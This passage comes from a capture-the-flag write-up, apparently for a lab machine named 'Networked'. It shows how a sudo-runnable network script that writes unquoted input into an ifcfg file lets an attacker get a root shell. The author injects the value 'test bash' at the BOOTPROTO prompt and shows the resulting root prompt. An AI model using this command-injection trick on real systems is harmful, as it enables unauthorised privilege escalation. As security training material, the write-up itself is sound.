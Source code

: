Now, again, we need to analyse another script and see how we can hijack the normal execution flow.  
If we open /usr/local/sbin/changename.sh we can see the following content:
```
[guly@networked ~]$ cat /usr/local/sbin/changename.sh
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done

/sbin/ifup guly0
```
Now, if we inspect the code, we can notice that echo $var=$x is not wrapped in quotes, since $x is written from user input, if we write a space and a command we will be able to execute that command as root.
Here's a simple example of this command escaping
```
[root@kali www ]$ var=test                                                    
[root@kali www ]$ echo $var date  
test date
```
Now we can do the same with the real executable, and hopefully gain a shell as root:
```
[guly@networked ~]$ sudo /usr/local/sbin/changename.sh                                                                                                                                                                                       
interface NAME:                                                                                                                                                                                                                              
tun0
interface PROXY_METHOD:
none
interface BROWSER_ONLY:
none
interface BOOTPROTO:
test bash
[root@networked network-scripts]#
```
And we get a shell as root.
